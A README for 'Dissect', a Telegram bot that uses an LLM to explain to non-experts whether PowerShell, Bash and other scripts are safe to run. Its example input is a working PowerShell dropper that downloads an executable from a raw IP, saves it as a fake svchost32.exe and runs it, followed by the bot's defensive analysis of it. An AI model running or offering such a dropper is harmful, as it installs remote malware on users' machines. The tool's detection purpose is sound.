

---

# Dissect

A Telegram bot that analyzes suspicious scripts and tells you in plain English whether they're safe to run. Paste a PowerShell command, drop a `.sh` file, get a verdict back in seconds — no security background required.

---

## Who It's For

Not security researchers. They have Ghidra. Dissect is for the IT person who got a `.ps1` attachment from an unknown sender, or the business owner whose employee forwarded "something weird." The output is written for someone who doesn't know what `ExecutionPolicy Bypass` means and shouldn't have to.

---

## What It Analyzes

PowerShell, Bash, Batch, Python, and VBScript. For each submission it returns a step-by-step breakdown of what the script does, any suspicious behaviors it found, whether the script is trying to hide itself through obfuscation, and a plain-English verdict: **RUN IT SAFELY**, **INVESTIGATE FURTHER**, or **DO NOT RUN THIS**.

---

## Setup

You need two things before running anything: a Groq API key and a Telegram bot token. Both are free.

**Groq key** — go to [console.groq.com/keys](https://console.groq.com/keys), create a key, copy it. It starts with `gsk_`.

**Telegram token** — open Telegram, find `@BotFather`, send `/newbot`, follow the prompts.

Then:

```bash
cd dissect
pip install -r requirements.txt
cp .env.example .env
# open .env and paste your keys
python main.py
```

Open your bot in Telegram, send `/start`, paste a script. Analysis takes 10–15 seconds.

---

## Example

**Input:**
```powershell
$url = 'http://185.220.101.47/payload.exe'
$path = $env:TEMP + '\svchost32.exe'
(New-Object System.Net.WebClient).DownloadFile($url, $path)
Start-Process $path
```

**Output:**
```
🔴 Dissect Analysis Complete
Risk Level: CRITICAL
Confidence: ✓✓✓

Summary:
This script downloads a file from the internet and runs it on your
computer. It saves the file with a name designed to look like a
legitimate Windows process.

What it does:
• Downloads a file from a raw IP address (not a website name)
• Saves it to your temp folder as svchost32.exe
• Runs it immediately

⚠️ Suspicious behaviors:
• [CRITICAL] Downloads and executes a file from an unknown IP address
• [HIGH] The filename is designed to look like a Windows system file

Verdict:
DO NOT RUN THIS. This script has the hallmarks of a malware dropper.
```

---

## Project Structure

```
dissect/
├── main.py              # Entry point
├── config.py            # Loads keys from .env
├── ai/
│   ├── groq.py          # Groq API client
│   ├── prompts.py       # Versioned prompts
│   └── parser.py        # JSON parsing and validation
├── core/
│   ├── analyzer.py      # Pipeline orchestration
│   ├── extractor.py     # URL, IP, hash extraction
│   └── obfuscation.py   # Obfuscation pattern detection
├── bot/
│   ├── handlers.py      # Telegram handlers
│   └── formatter.py     # Output formatting
└── tests/
    └── test_phase1.py   # Test suite
```

---

## Testing Without Telegram

```bash
python test_phase1.py
```

Runs four scripts through the pipeline: a benign Windows Update checker, a classic malware dropper, a base64-obfuscated payload, and a legitimate Python installer. Each has an expected risk level. If they all pass, the core analysis works.

---

## Rate Limits

Groq gives you 30 requests per minute and 14,400 per day on the free tier. Submissions are cached by script hash, so the same script never costs two API calls. Per-user rate limiting (5 analyses per 24 hours) comes in Phase 2.

---

## Disclaimer

Dissect is an automated tool. It can be wrong, especially on heavily obfuscated or novel malware. If something matters, get a second opinion from a real security professional.
